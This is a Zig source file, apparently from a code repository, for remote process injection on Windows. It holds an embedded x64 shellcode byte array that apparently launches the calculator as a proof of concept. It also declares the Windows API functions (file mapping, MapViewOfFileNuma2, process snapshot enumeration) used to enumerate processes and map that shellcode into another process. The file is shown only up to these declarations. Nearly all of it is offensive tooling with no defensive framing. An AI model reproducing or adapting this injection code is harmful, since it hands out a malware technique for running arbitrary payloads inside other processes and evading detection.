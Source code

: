 ```zig name=remote_mapping_injection.zig
const payload = [_]u8{
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
    0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
    0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
    0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
    0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
    0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
    0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
    0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
    0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
    0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
    0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
    0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
    0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00,
};

// External Windows API functions
extern "kernel32" fn CreateFileMappingW(
    hFile: HANDLE,
    lpFileMappingAttributes: ?*windows.SECURITY_ATTRIBUTES,
    flProtect: DWORD,
    dwMaximumSizeHigh: DWORD,
    dwMaximumSizeLow: DWORD,
    lpName: ?[*:0]const u16,
) callconv(WINAPI) ?HANDLE;

extern "kernel32" fn MapViewOfFile(
    hFileMappingObject: HANDLE,
    dwDesiredAccess: DWORD,
    dwFileOffsetHigh: DWORD,
    dwFileOffsetLow: DWORD,
    dwNumberOfBytesToMap: SIZE_T,
) callconv(WINAPI) ?PVOID;

extern "api-ms-win-core-memory-l1-1-5" fn MapViewOfFileNuma2(
    FileMappingHandle: HANDLE,
    ProcessHandle: HANDLE,
    Offset: u64,
    BaseAddress: ?*anyopaque,
    ViewSize: usize,
    AllocationType: u32,
    PageProtection: u32,
    PreferredNode: u32,
) callconv(windows.WINAPI) ?*anyopaque;

extern "kernel32" fn CreateToolhelp32Snapshot(
    dwFlags: DWORD,
    th32ProcessID: DWORD,
) callconv(WINAPI) HANDLE;

extern "kernel32" fn Process32First(hSnapshot: windows.HANDLE, lppe: *PROCESSENTRY32) callconv(windows.WINAPI) windows.BOOL;

```